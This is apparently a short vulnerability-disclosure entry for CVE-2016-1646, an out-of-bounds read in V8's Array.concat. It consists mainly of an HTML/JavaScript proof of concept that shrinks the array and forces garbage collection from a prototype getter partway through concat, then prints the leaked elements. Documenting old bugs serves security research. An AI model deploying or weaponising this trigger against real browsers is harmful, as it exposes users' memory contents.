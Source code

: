 # CVE-2016-1646
* Date : Mar 2016
* Credit : Wen Xu

## Description
OOB access in `Array.concat` builtin

## PoC
```html
<html>
<script language="javascript">
function gc() {
  tmp = [];
  for (var i = 0; i < 0x100000; i++)
    tmp.push(new Uint8Array(10));
  tmp = null;
}

b = new Array(10);
b[0] = 0.1; <-- Note that b[1] is a hole!
b[2] = 2.1;
b[3] = 3.1;
b[4] = 4.1;
b[5] = 5.1;
b[6] = 6.1;
b[7] = 7.1;
b[8] = 8.1;
b[9] = 9.1;
b[10] = 10.1;

Object.defineProperty(b.__proto__, 1, { <-- define b.__proto__[1] to gain the control in the middle of the loop
	get: function () {
		b.length = 1; <-- shorten the array
		gc(); <-- shrink the memory
		return 1;
	},
	set: function(new_value){
        /* some business logic goes here */
        value = new_value
    }
});

c = b.concat();
for (var i = 0; i < c.length; i++)
{
    document.write(c[i]);
    document.write("<br>");
}
</script>
</html>
```

## Reference
[issue 594574](https://bugs.chromium.org/p/chromium/issues/detail?id=594574)